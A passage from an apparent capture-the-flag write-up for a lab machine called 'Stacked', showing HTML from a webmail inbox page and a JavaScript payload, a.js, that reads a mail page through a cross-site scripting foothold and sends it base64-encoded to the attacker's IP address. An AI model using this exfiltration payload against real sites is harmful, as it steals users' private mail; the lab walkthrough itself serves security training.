 ```html
		  <td>
 		    <div class="icheck-primary">
 		      <input type="checkbox" value="" id="check1">
 			<label for="check1"></label>
 		    </div>
                  </td>
		  <td class="mailbox-star"><a href="#"><i class="fas fa-star text-warning"></i></a></td>
 		  <td class="mailbox-name"><a href="read-mail.php?id=1">Jeremy Taint</a></td>
 		  <td class="mailbox-subject"><b>S3 Instance Started</b></td>
		  <td class="mailbox-attachment"></td>
 		  <td class="mailbox-date">2021-06-25 08:30:00</td>
 		</tr>

 		<tr>
		  <td>
 		    <div class="icheck-primary">
 		      <input type="checkbox" value="" id="check1">
 			<label for="check1"></label>
 		    </div>
                  </td>
		  <td class="mailbox-star"><a href="#"><i class="fas fa-star text-warning"></i></a></td>
 		  <td class="mailbox-name"><a href="read-mail.php?id=2">sab</a></td>
 		  <td class="mailbox-subject"><b>sab</b></td>
		  <td class="mailbox-attachment"></td>
 		  <td class="mailbox-date">2021-09-19 10:08:02</td>
 		</tr>
		
...[snip]...

</body>
</html>
```

We adjust our `a.js` to now fetch `http://mail.stacked.htb/read-mail.php?id=1` and repeat the steps from before.

`a.js`
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://mail.stacked.htb/read-mail.php?id=1', false);
xhr.send();

var data = xhr.responseText

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.14.70/?a='+ btoa(data), true);
exfil.send();
```
